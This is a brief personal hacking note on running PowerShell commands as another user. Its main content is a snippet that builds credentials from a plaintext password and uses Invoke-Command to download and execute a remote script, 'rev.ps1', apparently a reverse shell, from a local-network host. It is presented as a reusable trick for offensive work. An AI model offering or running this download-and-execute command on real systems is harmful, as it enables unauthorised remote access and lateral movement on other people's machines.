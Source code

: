# powershell tricks run powershell commands as another user with SecureString credential
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

# Related

- [20221003150475](/zet/20221003150475/README.md) powershell tricks run powershell commands as another user
- ~/kb/hacking/powershell/powershell-tricks.md

Tags:

    #assorted #hacking #trick #powershell
